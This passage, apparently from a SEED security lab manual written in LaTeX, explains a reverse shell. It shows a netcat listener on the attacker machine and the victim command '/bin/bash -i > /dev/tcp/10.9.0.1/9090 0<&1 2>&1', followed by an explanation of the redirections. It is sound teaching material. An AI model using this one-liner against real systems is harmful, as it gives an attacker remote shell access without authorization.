 \begin{minipage}{\linewidth}
\begin{lstlisting}[backgroundcolor=]
           +---------------------------------------------------+ 
           | (*@\textbf{On 10.9.0.1 (attcker)}@*)                             |
           |                                                   | 
           | $ nc -lnv 9090                                    |  
           | Listening on 0.0.0.0 9090                         |  
           | Connection received on 10.9.0.5 49382             |  
           | $   <--+ (*@\textbf{This shell runs on 10.9.0.5}@*)              | 
           |                                                   |  
           +---------------------------------------------------+  
          
           +---------------------------------------------------+  
           | (*@\textbf{On 10.9.0.5 (victim)}@*)                              |
           |                                                   | 
           |$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1  | 
           |                                                   | 
           +---------------------------------------------------+
\end{lstlisting}
\end{minipage}

We provide a brief description on the reverse shell command in the following.
Detailed explanation can be found in the SEED book.

\begin{itemize}
\item \texttt{"/bin/bash -i"}: \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt)

\item \texttt{"> /dev/tcp/10.9.0.1/9090"}: This causes the output (\texttt{stdout}) of the shell
  to be redirected to the tcp connection to \texttt{10.9.0.1}'s port \texttt{9090}.
  The output \texttt{stdout} is represented by file descriptor number~1.

\item \texttt{"0<\&1"}: File descriptor 0 represents the standard input (\texttt{stdin}). This causes
  the  \texttt{stdin} for the shell to be obtained from the tcp connection.

\item \texttt{"2>\&1"}: File descriptor 2 represents standard error \texttt{stderr}. This
  causes the error output to be redirected to the tcp connection.
\end{itemize}

